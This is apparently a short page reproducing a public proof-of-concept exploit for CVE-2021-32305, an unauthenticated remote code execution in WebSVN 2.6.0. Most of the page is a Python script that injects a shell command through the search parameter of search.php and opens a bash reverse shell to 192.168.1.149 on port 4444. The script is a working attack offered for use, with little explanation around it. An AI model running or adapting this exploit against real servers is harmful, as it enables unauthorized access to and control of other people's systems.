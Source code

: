<languages />

Vulnerability Impact
--------------------

Version: 2.6.0

EXP
---

    # Exploit Title: Websvn 2.6.0 - Remote Code Execution (Unauthenticated)
    # Date: 20/06/2021
    # Exploit Author: g0ldm45k
    # Vendor Homepage: https://websvnphp.github.io/
    # Software Link: https://github.com/websvnphp/websvn/releases/tag/2.6.0
    # Version: 2.6.0
    # Tested on: Docker + Debian GNU/Linux (Buster)
    # CVE : CVE-2021-32305

    import requests
    import argparse
    from urllib.parse import quote_plus

    PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.149/4444 0>&1'"
    REQUEST_PAYLOAD = '/search.php?search=";{};"'

    parser = argparse.ArgumentParser(description='Send a payload to a websvn 2.6.0 server.')
    parser.add_argument('target', type=str, help="Target URL.")

    args = parser.parse_args()

    if args.target.startswith("http://") or args.target.startswith("https://"):
        target = args.target
    else:
        print("[!] Target should start with either http:// or https://")
        exit()

    requests.get(target + REQUEST_PAYLOAD.format(quote_plus(PAYLOAD)))

    print("[*] Request send. Did you get what you wanted?")